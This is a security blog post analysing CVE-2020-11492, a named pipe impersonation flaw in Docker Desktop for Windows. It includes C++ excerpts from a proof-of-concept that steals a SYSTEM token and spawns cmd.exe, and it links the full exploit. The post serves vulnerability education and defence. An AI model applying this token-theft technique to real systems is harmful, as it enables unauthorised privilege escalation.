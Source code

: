 +++
title = 'Analyzing CVE-2020-11492 Docker Desktop Privilege Escalation'
date = 2024-03-05 17:15:22
draft = false
+++

> CVE-2020-11492 was a critical privilege escalation vulnerability in Docker Desktop for Windows that allowed attackers to gain SYSTEM privileges through Windows named pipe impersonation. This post examines how the vulnerability worked by analyzing a proof-of-concept exploit, explaining the mechanics of named pipe impersonation attacks, and discussing the security implications for containerized environments. Though patched in May 2020, this vulnerability highlights important lessons about securing communication channels in privileged applications.

## Introduction

Docker has revolutionized how developers build, ship, and run applications, but security issues can sometimes arise where containerization meets the host operating system. One notable example is CVE-2020-11492, a privilege escalation vulnerability in Docker Desktop for Windows that was patched in May 2020.

I recently came across this vulnerability while doing some security research and decided to analyze the exploit mechanism. This post walks through how the vulnerability worked and what we can learn from it.

## The Vulnerability

The core issue in CVE-2020-11492 was relatively straightforward but had serious implications: Docker Desktop for Windows created a named pipe (`\\.\\pipe\\dockerLifecycleServer`) that could be impersonated by a malicious actor. Since the Docker service runs with SYSTEM privileges, an attacker who could successfully impersonate this pipe could potentially gain those same privileges.

Named pipes are a Windows IPC (Inter-Process Communication) mechanism that allow processes to communicate, potentially across different security contexts. They're often used by services to expose functionality to less-privileged processes. However, if not properly secured, they can become a vector for privilege escalation.

## The Exploit Mechanism

The proof-of-concept exploit for this vulnerability follows a classic named pipe impersonation attack pattern:

1. Create a named pipe that mimics the legitimate Docker named pipe (`\\.\\pipe\\dockerLifecycleServer`)
2. Wait for the Docker service to connect to the fake pipe
3. Use the Windows API `ImpersonateNamedPipeClient()` to assume the security context of the connecting client (Docker service)
4. Retrieve and duplicate the impersonated token
5. Launch a new process (cmd.exe) with the stolen token, which will run with SYSTEM privileges

Let's break down the key components of the exploit code to understand how it works.

### Creating the Fake Named Pipe

```cpp
HANDLE pipe = CreateNamedPipeA(
    "\\\\.\\pipe\\dockerLifecycleServer",
    openMode,
    pipeMode,
    1,              // max instances
    msgSize,        // out buffer size
    msgSize,        // in buffer size
    0,              // timeout. 0 ~= 50ms
    &SecurityAttrs);
```

The exploit creates a named pipe with the exact same name that Docker Desktop uses. This is a classic race condition attack - if the attacker's pipe is created first, the Docker service will connect to it instead of creating its own.

### Waiting for Docker to Connect

```cpp
bool connected = ConnectNamedPipe(pipe, NULL) ? true : (
    GetLastError() == ERROR_PIPE_CONNECTED);
```

Once the fake pipe is created, the exploit waits for the Docker service to connect to it. The Docker service runs with SYSTEM privileges, so when it connects, it does so with those elevated privileges.

### Impersonating the Client

```cpp
if (!ImpersonateNamedPipeClient(pipe)) {
    // Error handling
}
```

This is where the magic happens. The `ImpersonateNamedPipeClient()` function allows the calling process to impersonate the security context of the client process that's connected to the other end of the pipe. In this case, it means the exploit can temporarily assume the SYSTEM privileges of the Docker service.

### Retrieving and Duplicating the Token

```cpp
if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, false, &hToken)) {
    // Error handling
}

HANDLE hDuplicateToken = new HANDLE;
if (!DuplicateTokenEx(hToken, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokenPrimary, &hDuplicateToken)) {
    // Error handling
}
```

After impersonation, the code retrieves the access token from the current thread and duplicates it. This duplication is necessary because the impersonation is temporary and tied to the thread that called `ImpersonateNamedPipeClient()`. By duplicating the token, the exploit can use it even after the impersonation ends.

### Launching a Process with the Token

```cpp
if (!CreateProcessWithTokenW(
        hDuplicateToken,
        0,
        L"C:\\Windows\\System32\\cmd.exe",
        NULL,                   // command line args      
        CREATE_NEW_CONSOLE,     // creation flags
        NULL,                   // environment block
        NULL,                   // current directory
        &si,                    // startup info
        &pi                     // process info
    )) 
{
    // Error handling
}
```

Finally, the exploit launches a new cmd.exe process using the duplicated token. Since this token has SYSTEM privileges, the new process also runs with SYSTEM privileges, giving the attacker complete control over the system.

## Exploitation Requirements

An important nuance of this vulnerability is that it can't be exploited by just any user. The readme for the PoC notes:

> The right to impersonate the named pipe client is not held by standard users. To exploit, one must run this PoC as an account with the right, for example nt authority\network service.

This is because Windows restricts which accounts can perform impersonation. By default, standard users don't have the `SeImpersonatePrivilege`, which is required to call `ImpersonateNamedPipeClient()`. However, certain service accounts like `NETWORK SERVICE` do have this privilege, so the vulnerability could still be exploited in scenarios where an attacker has compromised such an account.

## The Fix

Docker fixed this vulnerability in version 2.3.0.2, released on May 11th, 2020. The fix likely involved:

1. Properly securing the named pipe with appropriate ACLs (Access Control Lists) to prevent unauthorized access
2. Implementing additional authentication mechanisms for pipe connections
3. Potentially changing how the pipe is created and managed to avoid race conditions

## Lessons Learned

This vulnerability highlights several important security considerations:

1. **IPC Mechanisms Need Proper Access Controls**: Named pipes, like any IPC mechanism, need to be secured with appropriate access controls to prevent unauthorized access.

2. **Race Conditions Can Lead to Security Issues**: The vulnerability exploited a race condition where an attacker could create a named pipe before the legitimate service. Always ensure that your application handles such scenarios securely.

3. **Privileged Services Require Extra Scrutiny**: Services running with elevated privileges (like SYSTEM) should be especially careful about how they interact with less-privileged processes.

4. **Impersonation Is a Powerful Feature with Security Implications**: Windows impersonation is a powerful feature that allows processes to temporarily assume the security context of other processes. It's important to understand the security implications and use it carefully.

## Conclusion

CVE-2020-11492 is a classic example of how seemingly minor issues in systems design can lead to significant security vulnerabilities. By understanding how this vulnerability worked, we can better appreciate the importance of secure IPC mechanisms and proper access controls.

Although this particular vulnerability has been patched, the underlying techniques - named pipe impersonation and token stealing - remain relevant for both attackers and defenders. As containerization technologies like Docker become increasingly prevalent in enterprise environments, securing the boundaries between containers and the host operating system will remain a critical security challenge.

The full POC can be found here: https://github.com/joshfinley/CVE-2020-11492.

{{< footnote >}}This analysis is based on publicly available information about CVE-2020-11492, including the proof-of-concept code. The techniques discussed should only be used in authorized security testing environments with appropriate permissions.{{< /footnote >}}
